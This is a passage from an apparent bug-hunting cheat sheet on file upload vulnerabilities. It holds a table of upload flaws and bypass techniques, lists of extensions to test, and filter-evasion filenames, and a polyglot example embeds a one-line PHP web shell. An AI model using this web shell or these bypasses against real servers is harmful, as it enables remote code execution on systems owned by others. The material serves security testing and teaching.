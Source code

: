 
### **18. File Upload Vulnerabilities**

| **Variant** | **Commonly Found In** | **Example Stack/Tech** | **Key Hunting Areas** | **Bypass Techniques** |
|---|---|---|---|---|
| **Unrestricted File Upload** | PHP, ASP, JSP applications | Image uploaders, document processors, avatar uploads | Upload endpoints accepting user files | Upload webshells (.php, .jsp, .aspx, .asp) |
| **Extension Blacklist Bypass** | File validation systems | Any upload with extension checking | File type restrictions | .php5, .phtml, .phar, double extension (.php.jpg) |
| **Content-Type Bypass** | MIME type validation | Same as above | Content-Type header validation | Change Content-Type to allowed type (image/jpeg) |
| **Path Traversal on Upload** | Any upload with filename control | File storage systems | Filename parameter | ../../../var/www/shell.php to write outside upload dir |
| **Polyglot Files** | Image processors | Avatar uploads, profile pictures, galleries | Image validation with execution | JPEG+PHP, PNG+JS, GIF+ASP combinations |
| **XXE via File Upload** | XML-based file formats | SVG, DOCX, XLSX, PPTX uploads | Office documents, SVG processors | External entity injection in XML-based files |
| **Archive Extraction Vulnerabilities** | ZIP/TAR processing | Backup uploads, bulk file processing | Archive extraction endpoints | Zip slip (path traversal in archives) |
| **ImageTragick (CVE-2016-3714)** | ImageMagick library | Image processing, thumbnail generation | Systems using ImageMagick | RCE via crafted image files |
| **File Inclusion via Upload** | LFI-vulnerable applications | PHP file inclusion with uploads | Combine upload + LFI | Upload file, then include it via LFI |
| **Race Condition in Upload** | Async file processing | Upload + validation in separate steps | File upload with delayed validation | Upload malicious file, execute before validation deletes it |

**Tech Stack Focus:**
- **Critical**: PHP applications, Java web apps (JSP), ASP.NET
- **High Priority**: Content management systems, file sharing platforms
- **Libraries**: ImageMagick, GraphicsMagick, GD, Pillow/PIL

**Common File Extensions to Test:**
- **PHP**: .php, .php3, .php4, .php5, .phtml, .phar, .phpt
- **ASP**: .asp, .aspx, .cer, .asa, .ashx, .asmx
- **JSP**: .jsp, .jspx, .jsw, .jsv, .jspf
- **Executable**: .exe, .bat, .cmd, .com
- **Other**: .svg (XSS/XXE), .html, .shtml, .shtm

**Polyglot File Example Structure:**
```
GIF89a; <?php system($_GET['cmd']); ?>
[Valid JPEG header bytes] <?php phpinfo(); ?>
```

**Bypass Techniques:**
- Null byte injection: `shell.php%00.jpg` (PHP < 5.3.4)
- Double extension: `shell.php.jpg`
- Reverse double extension: `shell.jpg.php`
- Add trailing dot: `shell.php.` (Windows)
- Case variation: `shell.PhP`
- Add space/special char: `shell.php ` or `shell.php::$DATA`
- MIME type mismatch: Upload PHP with `Content-Type: image/jpeg`
- Magic bytes: Add GIF89a or JPEG headers to bypass magic byte checks

---

### **19. XXE (XML External Entity)**
